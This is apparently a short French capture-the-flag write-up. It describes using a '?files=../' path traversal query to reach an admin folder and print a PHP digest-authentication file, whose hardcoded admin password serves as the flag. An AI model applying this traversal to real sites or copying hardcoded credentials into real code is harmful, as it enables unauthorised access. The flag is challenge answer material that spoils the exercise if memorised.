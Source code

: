 1. je click sur 'sysadmin'
2. je change la query en '?files=../'
=> je voix qu'il y a un dossier admin, certainement l'administration du site
3. je change la query '?files=../admin/'
=> j'ai accès a un fichier 'index.php'
4. j'ouvre le fichier 'index.php'
=> j'obtiens ce code:
```
File : index.php
<?php

function http_digest_parse($txt)
{
    $needed_parts = array('nonce'=>1, 'nc'=>1, 'cnonce'=>1, 'qop'=>1, 'username'=>1, 'uri'=>1, 'response'=>1);
    $data = array();
    $keys = implode('|', array_keys($needed_parts));
 
    preg_match_all('@(' . $keys . ')=(?:([\'"])([^\2]+?)\2|([^\s,]+))@', $txt, $matches, PREG_SET_ORDER);

    foreach ($matches as $m) {
        $data[$m[1]] = $m[3] ? $m[3] : $m[4];
        unset($needed_parts[$m[1]]);
    }

    return $needed_parts ? false : $data;
}


function auth($realm){
    header('HTTP/1.1 401 Unauthorized');
    header('WWW-Authenticate: Digest realm="'.$realm.'",qop="auth",nonce="'.uniqid().'",opaque="'.md5($realm).'"');
    die($realm);
}


$realm = 'PHP Restricted area';
$users = array('admin' => 'OpbNJ60xYpvAQU8');


if (empty($_SERVER['PHP_AUTH_DIGEST'])) {
  auth($realm);
}

if (!($data = http_digest_parse($_SERVER['PHP_AUTH_DIGEST'])) || !isset($users[$data['username']]))
    auth($realm);


$A1 = md5($data['username'] . ':' . $realm . ':' . $users[$data['username']]);
$A2 = md5($_SERVER['REQUEST_METHOD'].':'.$data['uri']);
$valid_response = md5($A1.':'.$data['nonce'].':'.$data['nc'].':'.$data['cnonce'].':'.$data['qop'].':'.$A2);

if ($data['response'] != $valid_response)
    auth($realm);

echo "<html>
	<head></head>
	<body>
	    <h3>You could use this password to validate the challenge !</h3>
	</body>
      </html>";

?>
```
5. je remarque la variable "$users = array('admin' => 'OpbNJ60xYpvAQU8');" et capture le flag
